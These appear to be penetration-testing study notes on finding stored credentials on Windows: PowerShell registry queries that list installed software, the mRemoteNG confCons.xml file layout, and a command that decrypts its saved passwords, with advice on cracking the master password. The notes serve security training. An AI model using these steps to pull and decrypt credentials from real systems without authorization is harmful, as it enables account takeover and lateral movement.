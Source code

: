 ```

        -Get Installed Programs via PowerShell & Registry Keys

        PS C:\> $INSTALLED = Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* |  Select-Object DisplayName, DisplayVersion, InstallLocation
        
        PS C:\> $INSTALLED += Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, InstallLocation
       
        PS C:\> $INSTALLED | ?{ $_.DisplayName -ne $null } | sort-object -Property DisplayName -Unique | Format-Table -AutoSize


        
        -mRemoteNG


        mRemoteNG saves connection info and credentials to a file called confCons.xml.

        By default, the configuration file is located in %USERPROFILE%\APPDATA\Roaming\mRemoteNG.

        -mRemoteNG Configuration File - confCons.xml

        <?XML version="1.0" encoding="utf-8"?>
        
        <mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false" Protected="QcMB21irFadMtSQvX5ONMEh7X+TSqRX3uXO5DKShwpWEgzQ2YBWgD/uQ86zbtNC65Kbu3LKEdedcgDNO6N41Srqe" ConfVersion="2.6">
                 <Node Name="RDP_Domain" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="096332c1-f405-4e1e-90e0-fd2a170beeb5" Username="administrator" Domain="test.local" Password="sPp6b6Tr2iyXIdD/KFNGEWzzUyU84ytR95psoHZAFOcvc8LGklo+XlJ+n+KrpZXUTs2rgkml0V9u8NEBMcQ6UnuOdkerig==" Hostname="10.0.0.10" Protocol="RDP" PuttySession="Default Settings" Port="3389"
        ..SNIP..
        
        </Connections>

        
        This XML document contains a root element called Connections with the information about the encryption used for the credentials and the attribute Protected, which corresponds to the master password used to encrypt the document. We can use this string to attempt to crack the master password. We will find some elements named Node within the root element. Those nodes contain details about the remote system, such as username, domain, hostname, protocol, and password. All fields are plaintext except the password, which is encrypted with the master password.

        -Decrypt the Password with mremoteng_decrypt

        $ python3 mremoteng_decrypt.py -s "sPp6b6Tr2iyXIdD/KFNGEWzzUyU84ytR95psoHZAFOcvc8LGklo+XlJ+n+KrpZXUTs2rgkml0V9u8NEBMcQ6UnuOdkerig==" 

        (https://github.com/haseebT/mRemoteNG-Decrypt)

        We need to copy the attribute Password content and use it with the option -s. If there's a master password and we know it, we can then use the option -p with the custom master password to also decrypt the password.


        In case we want to attempt to crack the password, we can modify the script to try multiple passwords from a file, or we can create a Bash for loop. We can attempt to crack the Protected attribute or the Password itself. If we try to crack the Protected attribute once we find the correct password, the result will be Password: ThisIsProtected. If we try to crack the Password directly, the result will be Password: <PASSWORD>.

```